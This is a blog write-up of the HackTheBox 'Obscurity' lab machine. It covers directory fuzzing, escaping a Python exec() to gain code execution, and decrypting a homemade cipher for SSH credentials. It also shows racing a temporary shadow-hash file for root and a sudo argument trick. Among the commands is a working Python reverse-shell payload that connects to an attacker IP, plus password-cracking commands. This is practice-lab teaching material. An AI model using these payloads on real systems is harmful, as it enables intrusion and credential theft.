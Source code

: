 ```yaml
---
title: "HackTheBox: Obscurity"
date: "2020-05-09"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/obscurity/htb-obscurity.png)

* * *

## Host Enumeration

As usual, we begin with an nmap scan to identify listening services.

- 22: OpenSSH 7.6p1
- 80: Closed HTTP
- 8080: BadHTTPServer

![Image](assets/img/writeups/hackthebox/obscurity/image-10.png)

## Host enumeration - 8080

Interestingly, the version of this service is BadHTTPServer... I am unfamiliar with this service. Due to the nature of HTTP, we navigate to it using the browser and we see a note; their motto is _security through obscurity!_ Interesting for sure. In my secure software development class at university, we were taught that security by obscurity offers no security, and it's only a matter of time until an attacker finds out.

When scrolling down a little, there is a second note from the developers. The web server code is in the **SuperSecureServer.py** file, in the secret development directory. This is where security by obscurity comes into action. The secret development directory is only supposed to be known to those authorized, however we are hackers and can use enumeration tools ;)

![Image](assets/img/writeups/hackthebox/obscurity/image-11-1024x187.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-12.png)

Lets use wfuzz to try and find the directory which SuperSecureServer.py is hidden in. The command can be seen below. The `FUZZ` is the placeholder/ field that is fuzzed by the wordlist. We place `/SuperSecureServer.py` afterwards so that when the correct directory is placed in the field, then we should get a HTTP 200 OK response.

```sh
$ wfuzz -w '/usr/share/wordlists/dirb/common.txt' \
-u 'http://10.10.10.168:8080/FUZZ/SuperSecureServer.py' \
--hc 404,500 -c
```

![Image](assets/img/writeups/hackthebox/obscurity/image-13.png)

Bingo! The secret directory is `develop`. Not so secret after all. Alright, now we have access to the software running the web server. Thankfully Python is an interpreted code language, and does not always get compiled. Hence, we are able to read the source code without any binary reversing.

* * *

## Getting the initial shell

We have to do a code review, perhaps there is some insecure software development which we can exploit. It seems that the web server serves documents which the user controls and is executed using the unsafe `exec()` function.

![Image](assets/img/writeups/hackthebox/obscurity/image-15.png)

Alright, it's time to buckle up and see if we can get RCE by escaping the `exec()`. This is the idea:

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = 'foo'
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

So we just need to change the `path` to get RCE.

```py
# the desired output
# ' import os;os.system("ping -c 2 10.10.15.95") a='
# together:
path = '\'' + '\nimport os;os.system("ping -c 2 10.10.15.95")\na=\''
```

![Image](assets/img/writeups/hackthebox/obscurity/image-17.png)

So all we need to do to get the reverse shell is to place some Python reverse shellcode (pentest monkey reverse shell cheat sheet).

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = '\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.95",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])\na=\''

print("[+] Sending payload. \n[+] Check netcat listener")
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

![Image](assets/img/writeups/hackthebox/obscurity/image-18.png)

* * *

## Pivot from www-data to Robert

The www-data is able to read the files (but not user.txt!) in the `Robert` home directory. There are some interesting files. I guess we will have to do our second code review, this time against SuperSecureCrypt.py

- check.txt
- out.txt
- passwordreminder.txt
- SuperSecureCrypt.py

![Image](assets/img/writeups/hackthebox/obscurity/image-19.png)

> Don't roll your own crypto
>
> Lecturer at Napier University

![Image](assets/img/writeups/hackthebox/obscurity/image-21.png)

OK so, we see that the encrypt function looks like a ROT13 cipher, but rotation by 255 rather than 13, using a key that is the length of the cipher text. Welcome to a crypto CTF challenge!

Pretty much, what we have to do is use the out.txt as an input file, use the contents of check.txt as the key, and use the `-d` flag to decrypt out.txt. This will give is the encryption key:

```sh
$ python3 SuperSecureCrypt.py \
-i out.txt
-k 'Encrypting this file with your key should result in out.txt, make sure your key is correct!' \
-o passwd-dec.txt \
-d \
&& cat passwd-dec.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

So, now we can use the key to decrypt the password.

```sh
$ python3 SuperSecureCrypt.py \
-i passwordreminder.txt
-k 'alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich'
-o passwordreminder-out.txt
-d \
&& cat passwordreminder-out.txt
SecThruObsFTW
```

![Image](assets/img/writeups/hackthebox/obscurity/image-22.png)

Now we are able to log in to the SSH service with `robert:SecThruObsFTW` credentials.

* * *

## Escalating to Root

When executing `sudo -l` we are able to see whether Robert can execute any scripts as root.

![Image](assets/img/writeups/hackthebox/obscurity/image-24-1024x121.png)

Robert can execute BetterSSH.py as root. There is a bit of a theme developing; it seems that we have to code review again now. We see a big no-no. Instead of using the native SSH binary, the creators created their own - which is supposed to be better. However, there is a gaping mistake in it. It writes the hashes of the **shadow** file to /tmp/SSH/ for 0.1 seconds. Sounds secure, but we can exploit this. We must execute the script as root because otherwise it is not possible to read the shadow hashes.

![Image](assets/img/writeups/hackthebox/obscurity/image-25.png)

There are actually two methods here. The second method I didn't know until I discussed it with another player.

### Method 1 to get root

As the root hash is only placed in the /tmp/SSH directory for 0.1 seconds, we need to create a loop that will cat all files.

```sh
while true; do cat /tmp/SSH/* ; done
```

In a second terminal, we must execute BetterSSH.py as root (using Robert the user) and login with our credentials. Then the root hash will be printed in the first terminal. We can use John to crack the password.

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
mercedes
```

![Image](assets/img/writeups/hackthebox/obscurity/image-26.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-27.png)

We can use the password to switch to the root user in the robert SSH session. While the password could have been brute forced straight away, we cannot login to root through SSH externally, so that would have failed.

![Image](assets/img/writeups/hackthebox/obscurity/image-28.png)

## Method 2 to get root

So, when we run binaries as sudo we can also execute commands as another user, e.g.
`sudo -u foo script.sh` to run script.sh as foo user. We can do:
`-u root cat /root/root.txt` in the BetterSSH shell to get the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-29.png)

We must do a code review to understand _why_ this really works. The screenshot below shows the code that is executed when a user types a command. The key line is highlighted in the orange box.

The BetterSSH is running under root context. To enable user permissions, `sudo -u <username>` is used to execute commands as the authenticated user. However, when we use the command `-u root $command` then we place it in `sudo -u robert -u root $command`. The sudo binary takes the root user, and executes `cat /root/root.txt` to give us the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-31.png)
